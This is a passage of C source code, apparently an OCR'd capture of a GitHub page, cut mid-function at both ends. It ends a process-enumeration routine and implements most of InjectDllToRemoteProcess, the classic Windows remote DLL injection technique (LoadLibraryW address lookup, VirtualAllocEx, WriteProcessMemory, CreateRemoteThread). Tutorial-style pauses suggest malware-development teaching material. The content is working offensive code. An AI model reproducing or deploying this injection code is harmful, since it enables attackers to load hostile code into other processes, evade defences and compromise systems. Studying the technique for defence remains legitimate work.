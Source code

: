 ```c
				printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());

			break;
		}

		// Retrieves information about the next process recorded the snapshot.
		// While a process still remains in the snapshot, continue looping
	} while (Process32Next(hSnapShot, &Proc));

	// Cleanup
_EndOfFunction:
	if (hSnapShot != NULL)
		CloseHandle(hSnapShot);
	if (*dwProcessId == NULL || *hProcess == NULL)
		return FALSE;
	return TRUE;
}

BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR DllName) {
	BOOL bSTATE = TRUE;
	LPVOID pLoadLibraryW = NULL;
	LPVOID pAddress = NULL;

	// Fetching the size of DllName *in bytes*
	DWORD dwSizeToWrite = (lstrlenW(DllName) + 1) * sizeof(WCHAR); // Include space for null terminator

	SIZE_T lpNumberOfBytesWritten = NULL;
	HANDLE hThread = NULL;

	// Get the address of LoadLibraryW in kernel32.dll
	pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	if (pLoadLibraryW == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Allocate memory in the target process
	pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("[i] pAddress Allocated At : 0x%p Of Size : %d\n", pAddress, dwSizeToWrite);
	printf("[#] Press <Enter> To Write ... ");
	getchar();

	// Write the DLL name to the allocated memory in the target process
	if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite) {
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("[i] Successfully Written %d Bytes\n", lpNumberOfBytesWritten);
	printf("[#] Press <Enter> To Run ... ");
	getchar();

	// Create a remote thread in the target process to execute LoadLibraryW
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
	if (hThread == NULL) {
```